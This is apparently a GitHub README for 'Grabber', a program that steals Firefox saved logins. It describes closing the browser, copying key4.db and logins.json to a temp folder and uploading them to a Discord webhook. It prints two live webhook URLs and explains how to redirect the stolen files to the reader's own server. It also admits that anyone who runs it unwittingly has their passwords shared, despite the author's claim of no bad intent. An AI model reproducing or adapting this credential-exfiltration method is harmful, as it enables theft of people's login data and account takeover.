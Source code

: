 # Grabber
This Program is for Copying and Sending Log-in Data to another person via Discord Webhook.
This program is currently in Alpha V1.1 by writing of this README.txt and can only be used per Firefox by this Point. 
This Program works by Making sure Firefox.exe is completly closed by Closing the Browser or Starting and again Closing the Browser for 100% verfication
that its closed. From that point it creates a Folder in %temp% where the "key4.db" and "logins.json" getting copied to on the local harddrive. 
From that point on i turned on an Discord-Webhook that automatically send those 2 files into an Private Text channel on my Discord Server. 
With those 2 Files i can copy them to my Local Appdata\Roaming\Mozilla\Profiles directory and view the Content (In this case Login Info) through Firefox´s 
intergrated Password Manager. 

I dont plan to use this Program for bad or stealing any informations but rather to try myself in coding after watching an Youtube video about an Password
stealer called named "Lumma". If you didnt read this README file, or even didnt existed in the file that you got send and just started to launch the Program.
Im sorry but your Passwords are now shared with another or Multiple People. The only way is to quickly change all your Information so they can do as little 
damage as possible. This program is simple written and should spread awareness to only use Password Manager Programs that are specifically made for Security.


If you just started the Program by installing it Fresh from github.com/SnawaHD/Grabber and want your Log-In Infos deleted you can contact me via my 
Discord Server that got only made for this Project: https://discord.gg/XqFtQ7CWC4

If you want to change the Discord-Webhook where the Files are getting send to you can make on easily by going into any Server you own > Settings > 
Intergration > Webhook. Then you do one and copy the link and paste it into the code that is under the "Program.cs". Im recomending to open this Program in Visual Studios 
because i created it there. The Lines that are essential to redirect the files to your Webhook are easy to change and easy to identify. 
The Lines will look like this: 

string webhookLink = "https://discord.com/api/webhooks/1093683641068044378/KCPO4Q-xlX3zcMR25Ukt5L8LnVw_YwbsGFVLjZE142Pb3Is-7OM0eOYuR2QMWr1Lv0Go";
string Webhook_link = "https://discord.com/api/webhooks/1093683641068044378/KCPO4Q-xlX3zcMR25Ukt5L8LnVw_YwbsGFVLjZE142Pb3Is-7OM0eOYuR2QMWr1Lv0Go";

The lines are also very long in comparison to the other code and are both follow by another long line compared to the code.
After that just save the program and launch it. Your files are now in the folder named "AppData\Local\Temp\a74Bas57M\Profiles"

Enjoy!
